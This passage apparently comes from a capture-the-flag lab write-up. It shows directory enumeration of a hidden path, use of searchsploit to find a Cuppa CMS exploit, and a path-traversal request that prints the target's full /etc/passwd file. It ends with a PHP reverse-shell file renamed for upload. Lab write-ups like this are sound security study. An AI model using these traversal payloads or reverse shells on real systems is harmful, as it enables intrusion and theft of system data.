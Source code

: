 	/administrator (Status: 301)


- /45kra24zxs28v3yd/administrator
	
		Cuppa login page

searchsploit cuppa

	exploit 25971

## testing for exploit 25971

> http://$IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
	systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
	systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
	systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
	syslog:x:104:108::/home/syslog:/bin/false
	_apt:x:105:65534::/nonexistent:/bin/false
	lxd:x:106:65534::/var/lib/lxd/:/bin/false
	messagebus:x:107:111::/var/run/dbus:/bin/false
	uuidd:x:108:112::/run/uuidd:/bin/false
	dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
	sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
	milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
	dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
	dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
	postfix:x:113:121::/var/spool/postfix:/bin/false
	mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false


Going to directory with php-reverse-shell.php

	renamed it cats.php... just because I love cats
